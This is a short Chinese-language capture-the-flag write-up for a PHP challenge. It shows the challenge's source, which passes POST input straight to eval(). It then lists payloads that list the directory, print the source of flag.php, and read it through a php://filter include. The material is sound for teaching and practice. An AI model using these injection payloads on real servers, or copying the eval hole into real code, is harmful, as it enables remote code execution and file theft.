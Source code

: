 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
} 
```





### 第一种

```
c=var_dump(scandir(getcwd()));
```

![image-20250404153335757](./assets/image-20250404153335757.png)

```
c=show_source(next(array_reverse(scandir(getcwd()))));
```

![image-20250404153314599](./assets/image-20250404153314599.png)



### 第二种

```
c=show_source("flag.php");
```

![image-20250404153349904](./assets/image-20250404153349904-1743752030217-1.png)

```
c=highlight_file("flag.php");
```

![image-20250404153405125](./assets/image-20250404153405125.png)





### 第三种

嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250404160147914](./assets/image-20250404160147914.png)

![image-20250404160204705](./assets/image-20250404160204705.png)